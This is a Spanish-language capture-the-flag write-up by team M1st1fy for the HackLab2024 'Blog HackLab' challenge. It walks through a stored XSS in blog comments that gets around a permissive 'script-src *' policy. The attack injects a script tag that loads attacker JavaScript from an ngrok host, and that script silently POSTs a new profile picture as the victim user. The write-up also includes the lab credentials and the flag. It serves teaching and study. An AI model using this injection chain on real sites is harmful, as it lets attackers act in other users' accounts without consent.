

# M1st1fy 

Este documento fue confeccionado por [`M1st1fy`](https://github.com/m1st1fy), un equipo concebido para la realización de CTFs :-)
> Nota: Pueden encontrar los otros documentos del HackLab2024 [aquí](https://github.com/M1st1fy/HackLab2024)
## Integrantes

- Tomás N. Raspa
- Agustín M. Blanco
## Índice

- [M1st1fy](#m1st1fy)
	- [Integrantes](#integrantes)
	- [Índice](#índice)
	- [Blog HackLab](#blog-hacklab)
		- [Primera aproximación](#primera-aproximación)
		- [Observando en profundidad](#observando-en-profundidad)
			- [Carga de imágenes](#carga-de-imágenes)
		- [El ataque](#el-ataque)
			- [XSS](#xss)
			- [Creando la función](#creando-la-función)
			- [Exploit final](#exploit-final)


---
## Blog HackLab

>Este Blog permite que los usuarios puedan realizar comentarios sobre el HackLab.
>Tu usuario es: hacklab
>Contraseña: hacklab2024
>Tu objetivo es modificarle la foto de perfil al usuario pepe.
>Podés obligar a que pepe ingrese al blog copiando la url del desafío en el siguiente campo.
>Solo tenés que ingresar el dominio del desafío en el siguiente campo de texto (protocolo y dominio, sin path) y esto engañará a Pepe y, hará que ingrese. Aunque cuidado, porque solo podés hacerlo una vez por minuto. Esta funcionalidad no debe atacarse, es solo para obligar a Pepe a ingresar al blog.

### Primera aproximación

Al ingresar al sistema, nos encontramos con una pantalla de inicio de sesión.


Al loguearnos exitosamente, identificamos un blog con un comentario de pepe preguntando si hay alguien en este blog. De esto podemos deducir que pepe tiene un usuario.


Ingresamos un comentario.


Al apretar en el botón, notamos que la página se recarga y nos muestra nuestro comentario.


Al ingresar al *Perfil*, notamos que podemos modificar la Bio y la imagen de perfil.


Ingresamos una biografía y una imagen para actualizarlas.


Al apretar en el botón notamos que se nos recarga la página y nos muestra los datos actualizados.


### Observando en profundidad

Ayudándonos de las [herramientas de desarrollador](https://developer.chrome.com/docs/devtools?hl=es-419) de nuestro navegador, podemos ver las peticiones que se están haciendo al servidor junto con las respuestas que éste nos provee. 

#### Carga de imágenes

Si repetimos la subida de imagen que hicimos en _[Primera aproximación](#Primera-aproximación)_ pero con las herramientas de desarrollador abiertas, veremos que la subida de imagen no es más que un [POST](https://developer.mozilla.org/es/docs/Web/HTTP/Methods/POST) a `/profile` enviando como *payload* `bio` y `profile_pic` mediante un *FormData*. Notamos que siempre envía la biografía y la imagen.


Ante esta petición, el servidor respondió con un código de estado [200](https://developer.mozilla.org/es/docs/Web/HTTP/Status/200) y el HTML de la página pre-renderizada.

### El ataque

#### XSS

Como tenemos que lograr que *pepe* modifique su foto de perfil inadvertidamente, podríamos suponer que se trata de algún tipo de [XSS](https://owasp.org/www-community/attacks/xss/), por lo que vamos a probar distintos ataques para verificar a cuál/es es vulnerable este sistema.

Al intentar enviar un comentario con el siguiente payload `<script>console.log("xss");</script>`, notamos que la página nos dice que el comentario se registró exitosamente pero al recargar la página nada es impreso por consola, indicando que el ataque no funcionó como esperábamos.


Al mirar el contenido de la página, notamos que justo en la línea que escribimos hay un error `Refused to execute inline script because it violates the following Content Security Policy directive: "script-src *". Either the 'unsafe-inline' keyword, a hash ('sha256-tt6DgSH/Os6rxnX3nTWclGRIVjhOtcdrw+UoOvnpDk4='), or a nonce ('nonce-...') is required to enable inline execution.` .
Investigando un poco sobre el [Content Secure Policy script-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src), podemos ver que es una directiva para indicar las fuentes válidas para cargar código *JavaScript*.
Esta directiva suele estar definida en el elemento `<meta>`. 
Dentro del código *html* de la página, encontramos el siguiente elemento:
```html
<meta http-equiv="Content-Security-Policy" content="script-src *">
```
Notamos que la directiva es _script-src \*_. Esto significa que podemos cargar código *JavaScript* desde cualquier fuente.

> Nota: La página no ejecutó nuestro primer *payload* debido a que la directiva `script-src` no contiene el valor `unsafe-inline`.

Para verificar que realmente se pueden cargar scripts de cualquier fuente, vamos a intentar incluir *[JQuery](https://jquery.com/)*.

> Nota: *jQuery* no estaba incluido por los desarrolladores de esta página.

Obtenemos la *tag* desde la [CDN](https://releases.jquery.com/) de *jQuery*:
```html
<script src="https://code.jquery.com/jquery-3.7.1.min.js" integrity="sha256-/JqT3SQfawRcv/BIHPThkBvs0OEvtFFmqPF/lYI/Cxo=" crossorigin="anonymous"></script>
``` 

Y lo enviamos como comentario en el blog:


Una vez enviado el comentario con la inclusión del *jQuery*, verificamos en la pestaña de Network que lo haya cargado.

Efectivamente fue cargado desde el sitio que le indicamos anteriormente.


#### Creando la función

Como ya tenemos el vector de ataque listo, faltaría crear la función que nos permita modificar la foto de perfil de pepe.
Para esto intentaremos replicar la subida de archivos que vimos en _[Primera aproximación](#Primera_aproximación)_. Con la intención de simplificar la sintaxis, para crear la función vamos a aprovechar el *jQuery* que cargamos previamente.

```js
const formData = new FormData()
formData.append("bio", "Soy un actor")
formData.append("profile_pic", file, file.name)

$.ajax({
	url: `${window.location.href}/profile`,
	type: "POST",
	data: formData,
	contentType: false,
	processData: false,
});
```

El problema viene cuando necesitamos obtener la imagen a enviar.
Lo que podemos hacer es obtener una imagen de *Internet* con [`fetch`](https://developer.mozilla.org/es/docs/Web/API/Window/fetch) y transformarla a un objeto tipo [File](https://developer.mozilla.org/es/docs/Web/API/File).

```js
let response = await fetch('https://encrypted-tbn3.gstatic.com/images?q=tbn:ANd9GcRpkHxWQRI_w5AJsHnqb6p1IQ7jZtSZ8qb1yg-p_Tt0LatYzWc6')
let data = await response.blob()
let metadata = {
	type: 'image/jpeg'
}
let file = new File([data], "jimCarrey.jpg", metadata)
```

Por lo que la función completa quedaría así:

```js
async function changeProfilePic() {
	let response = await fetch('https://encrypted-tbn3.gstatic.com/images?q=tbn:ANd9GcRpkHxWQRI_w5AJsHnqb6p1IQ7jZtSZ8qb1yg-p_Tt0LatYzWc6')
	let data = await response.blob()
	let metadata = {
		type: 'image/jpeg'
	}
	let file = new File([data], "jimCarrey.jpg", metadata)
	const formData = new FormData()
	formData.append("bio", "Soy un actor")
	formData.append("profile_pic", file, file.name)

	$.ajax({
		url: `${window.location.href}/profile`,
		type: "POST",
		data: formData,
		contentType: false,
		processData: false,
	});
}

changeProfilePic()
```

Utilizando la consola de las herramientas de desarrollador, probamos la función.


Al recargar la página vemos que efectivamente se actualizó la foto de perfil.


#### Exploit final

Para lograr el objetivo final, sólo falta unir las dos técnicas encontradas.

La pregunta es: ¿Qué forma tenemos de proveer el archivo con la función `changeProfilePic`?

Podemos utilizar [ngrok](https://ngrok.com/), un *reverse proxy* que nos permite exponer nuestras aplicaciones de una forma sencilla.

Citando la [documentación oficial](https://ngrok.com/docs):
> *[...] ngrok is your app's front door. ngrok is a globally distributed reverse proxy that secures, protects and accelerates your applications and network services, no matter where you run them. ngrok supports delivering HTTP, TLS or TCP-based applications. [...]*

Para que las víctimas del XSS puedan cargar el archivo, primero creamos un [servidor con *python*](https://docs.python.org/es/3/library/http.server.html) que sea capaz de retornarlo con el siguiente comando: `python -m http.server 80`

Y luego, lo exponemos utilizando *ngrok* con el siguiente comando: `./ngrok.exe http http://localhost:80`


Finalmente creamos la *tag* *script* de la siguiente forma:
```html
<script src="https://dc76-2800-810-596-32eb-54b0-6121-ac3f-bb99.ngrok-free.app/changeProfilePic.js"></script>
```

Lo ingresamos como comentario en el blog, y lo enviamos.


Notamos que en las consolas se hizo una solicitud al recurso `changeProfilePic.js`.


Para este punto el ataque ya está hecho. Sólo es cuestión de tiempo para que pepe ingrese al blog y sea víctima de nuestro *script*.

Con el objetivo de agilizar un poco las cosas, la plataforma que sirve los desafíos decidió implementar un mecanismo para simular a pepe ingresando ingenuamente al blog. Para utilizarlo, debemos copiar el link de la instancia en el enunciado y presionar el boton `Engañar a Pepe para que ingrese al Blog`


Una vez hecho esto, si recargamos la página del blog, vemos que aparece la foto de pepe modificada junto con la bandera.



> Flag: `44301e6c871eb9e21cfd16fd94e4fe90`

